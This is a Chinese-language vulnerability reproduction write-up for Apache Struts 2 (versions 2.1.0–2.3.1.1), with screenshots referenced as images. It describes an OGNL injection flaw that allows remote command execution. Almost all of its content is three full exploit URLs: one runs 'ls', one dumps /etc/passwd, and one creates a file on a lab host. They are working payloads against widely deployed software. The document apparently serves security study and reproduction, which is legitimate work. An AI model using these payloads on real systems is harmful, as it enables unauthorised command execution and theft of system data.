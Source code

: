 #### 影响版本

```php
Struts 2.1.0 - 2.3.1.1
```

#### 漏洞启动

![image-20210708173059857](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a92763b5f177fa766c8d95c0041853946b431b41.png)

![image-20210708173543165](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-997dc245393e573096225e85ea1c0008bbd89d6c.png)

##### 验证漏洞是否存在，poc-1

```php
/ajax/example5.action?age=12313&amp;name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27ls%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&amp;z[(name)(%27meh%27)]
```

![image-20210709085739301](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2d4c0b520f4cf5844f3b1affd70dca717293fbcf.png)

![image-20210709090303111](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d21915b3447883f54b28e556c0eaa359ce510114.png)

##### 构造poc-2，枚举/etc/passwd

```php
http://192.168.9.234:8080/ajax/example5?age=12313&amp;name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(&quot;cat /etc/passwd&quot;).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&amp;z[(name)(%27meh%27)]
```

![image-20210709090654277](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e1f4bb48ccc7c09b7e95d01312f0b89609b6d00d.png)

##### 构造poc-3，创建用户执行命令

```php
http://192.168.9.234:8080/ajax/example5?age=12313&amp;name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boo%20lean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%22touch%20/tmp/dayu009%22).ge%20tInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%2%203kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&amp;z[(name)(%27m%20eh%27)]
```

![image-20210709091120046](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2d8b090dbc911ade89c9e1728cdb35480beb1c63.png)

![image-20210709091156305](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-85c8795901e1905f2150e508fab328b8866e6dca.png)

